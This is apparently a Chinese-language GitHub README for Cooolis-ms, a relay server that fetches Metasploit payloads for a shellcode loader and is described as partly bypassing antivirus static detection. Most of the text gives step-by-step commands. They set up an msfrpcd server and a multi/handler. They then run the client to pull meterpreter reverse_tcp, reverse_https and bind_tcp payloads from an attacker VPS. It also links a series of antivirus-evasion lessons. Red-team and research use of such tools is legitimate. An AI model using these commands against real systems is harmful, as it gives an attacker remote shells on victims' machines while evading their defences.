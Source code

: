 # Cooolis-ms

![README](./Pic/view-1.png)

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。

加载器执行流程：

1. 连接Cooolis-Server
2. Cooolis-Server连接Metasploit RPC服务端
3. 取回Payload然后发送回加载器


核心技术：

- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)


## 该项目的优点

- 体积小（<600KB）
- 支持Metasploit所有Payload
- 参数设置简单
- 单文件
- 架构分离

## 你可以参考这里，写出自己的好项目

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)
- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)

## 如何安装


### 选择一 > Docker部署（推荐）


Bilibili:

[![China Bilibili](./img/2020-09-09-23-20-03.png)](https://www.bilibili.com/video/BV1P54y1m7JF/ "China Bilibili")


```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms/Docker
$ docker-compose up -d
```

默认监听端口：8899

### 选择二 > 源码部署

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## 如何使用

**如果你使用了Docker进行部署，请直接从第三步开始。**

假设这是我的VPS： 10.20.56.41

### 第一步 启动Metasploit RPC服务端

**启动Metasploit RPC服务端：**

```
$ msfrpcd -U msf -P msf -u /api/1.0/ -a 127.0.0.1
```

![](img/2020-08-05-11-53-35.png)

### 第二步 启动Cooolis-ms服务端

使得它连接到RPC，并且监听一个端口，用来发送载荷：

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 10.20.56.41
```

![](img/2020-08-05-11-54-24.png)

### 第三步 配置Metasploit监听器


```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set LHOST  10.20.56.41
msf5 > set LPORT 8876
msf5 > exploit -j
```

![](img/2020-08-05-11-57-03.png)

### 第四步 启动Cooolis-ms客户端


```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -o LHOST=10.20.56.41,LPORT=8876,Format=dll -H 10.20.56.41 -P 8899
```

![](img/2020-08-05-12-08-07.png)

Q&A : [是否支持RC4加密的Payload?](https://github.com/Rvn0xsy/Cooolis-ms/issues/6)

* windows/meterpreter/reverse_tcp_rc4：

```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp_rc4 -o LHOST=10.20.56.41,LPORT=8876,RC4PASSWORD=rc4_password,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter_reverse_https

```
Cooolis-ms.exe -p windows/meterpreter_reverse_https -o LHOST=10.20.56.41,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter/bind_tcp_rc4

```
Cooolis-ms.exe -p windows/meterpreter/bind_tcp_rc4 -o RHOST=10.20.56.11,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* 其他... 自由发挥

**提示：**

1. `-o`参数后的值需要和msf的监听器配置一致。
2. 由于本项目依赖[MemoryModule](https://github.com/fancycode/MemoryModule)这个开源项目，因此只能支持DLL格式的PAYLOAD。需要在`-o`参数后添加`Format=dll`


## 关于其他

如果你觉得这个项目不错，请给我一个Star～


## issue

[我要提交建议或问题](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
